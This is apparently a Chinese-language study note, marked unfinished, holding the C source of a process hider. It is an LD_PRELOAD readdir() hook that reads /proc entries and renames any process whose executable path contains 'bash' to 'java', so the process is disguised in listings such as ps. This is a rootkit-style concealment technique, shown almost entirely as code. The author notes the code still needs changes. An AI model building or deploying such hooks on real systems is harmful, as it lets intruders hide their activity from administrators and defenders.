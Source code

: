 

## 实战（暂未完成）

processhider.c(源码还需修改)

```c
#define _GNU_SOURCE

#include <sys/types.h>
#include <dirent.h>
#include <dlfcn.h>
#include <string.h>
#include <unistd.h>
#include <stdio.h>

struct dirent* readdir(DIR* dirp)
{
    //get original readdir pointer
    struct dirent* (*target_readdir)(DIR*);
    target_readdir = dlsym(RTLD_NEXT,"readdir");
    
    //get original dir
    struct dirent* dir;
    dir = target_readdir(dirp);

    if(!dir)
    {
        return 0;
    }

    char proc_path[0x1000];
    snprintf(proc_path,sizeof(dir->d_name)+0xA,"/proc/%s/exe",dir->d_name);

    char exec_path[0x1000];
    int ret = readlink(proc_path,exec_path,sizeof(exec_path));

    if(ret == -1)
    {
        return dir;
    }

    printf("%s\n",exec_path);

    if(strstr(exec_path,"bash"))
    {
        memset(exec_path,'\0',sizeof(exec_path));
        memcpy(dir->d_name,"java",sizeof(dir->d_name));
        printf("%s\n",dir->d_name);
        return dir;
    }
    else 
    {
        memset(exec_path,'\0',sizeof(exec_path));
        return dir;
    }

}
//一次完成，最后return 0？
```
